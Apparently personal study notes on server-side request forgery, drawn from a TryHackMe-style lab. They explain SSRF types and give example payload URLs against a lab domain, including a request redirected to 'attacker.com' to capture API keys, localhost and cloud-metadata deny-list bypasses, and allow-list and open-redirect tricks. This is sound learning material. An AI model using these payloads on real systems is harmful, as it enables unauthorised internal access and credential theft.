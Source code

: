 ```yaml
---
title: Server-side Request Forgery
---
```


_Server-side Request Forgery_ is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## Types of SSRF

There are two types of SSRF vulnerability:

- a regular SSRF - data is returned to the attacker's screen
- _blind SSRF_ - an SSRF occurs, but no information is returned to the attacker's screen

## Impact

A successful SSRF attack can result in any of the following:

- Access to unauthorised areas
- Access to customer/organisational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

## Examples

### URL manipulation

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

By modifying the `url` query param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=http://api.website.thm/api/user

# client request the server
http://api.website.thm/api/user

# server returns the user data instead of stock information
```

### With [[cybersecurity/knowledge/pentesting/path-traversal]]

The client expects similar request:

```http
http://website.thm/stock?url=/item?id=123
```

Even if we have control over the path, not the whole URL, by modifying the `url` param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=/../user

# client request the server
http://api.website.thm/api/stock/../user

# server returns the user data instead of stock information
```

### Controlling the server's subdomain

The client expects similar request:

```http
http://website.thm/stock?server=api&id=123
```

```http
# hacker requests
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
                                [-------------------------]

# client request the server
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
     [----------------------------]                              [-]

# server returns the user data instead of stock information
```

We can control the server's subdomain to which the request is made (from `server` to `api.website.thm/api/user`).

The [[cybersecurity/knowledge/glossary/payload]] ending with `&x=` is used to stop the remaining path from being appended to the end of the URL and turns into parameter itself.

### Forcing webapp to request another server

The attacker can force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by `website.thm` (that would normally authenticate to `api.website.thm`).

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

```http
# hacker requests
http://website.thm/stock?url=http://attacker.com/

# webapp requests data from `attacker.com` revealing the API key
```

## Finding a SSRF

SSRF vulnerabilities can be spotted in many different ways. Common examples:

- A full URL used as a parameter in the address bar
  - `https://website.thm/form?server=http://server.website.thm/store`
- A partial URL such as just the hostname
  - `https://website.thm/form?server=api`
- Path of the URL
  - `https://website.thm/form?dst=/forms/contact`
- In a hidden field in a form

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working [[cybersecurity/knowledge/glossary/payload]].

If working with a blind SSRF the output is not reflected back to us, so we'll need an external HTTP logging tool to monitor requests:

- [RequestBin](https://requestbin.com)
- your own HTTP server
- [[cybersecurity/knowledge/tools/burp|Burp Suite]]'s Collaborator client.

## Bypassing SSRF defenses

Security-savvy developers aware of the SSRF may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, as follows:

### _Deny List_

All requests are accepted apart from resources specified in a list or matching a particular pattern.

A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations.

A specific endpoint to restrict access is the `localhost`/`127.0.0.1`, which may contain server performance data or further sensitive information.

Attackers can bypass a Deny List by using alternative localhost references such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` or subdomains that have a DNS record which resolves to `127.0.0.1` such as `127.0.0.1.nip.io`.

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.

### _Allow List_

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, eg. a rule that an URL used in a parameter must begin with `https://website.thm`.

An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

### Open Redirect

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address, e.g `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created for statistics purposes.

But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
